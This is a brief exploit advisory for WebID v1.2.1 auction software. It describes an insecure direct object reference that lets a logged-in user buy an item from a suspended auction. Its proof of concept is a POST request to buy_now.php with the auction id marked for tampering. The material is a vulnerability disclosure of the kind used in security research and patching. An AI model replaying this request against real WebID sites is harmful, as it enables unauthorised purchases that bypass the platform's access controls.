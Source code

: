 # Exploit Title: Webid v1.2.1 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://sourceforge.net/projects/simpleauction/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Webid
## Version: v1.2.1
## Exploit Description:
## Webid v1.2.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to buy now an auction that is suspended(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /buy_now.php?id=4(CHANGE HERE) HTTP/1.1
...

csrftoken=8be3cd6190b2484289828c7fc3c23906&qty=1&password=user1test&action=buy
```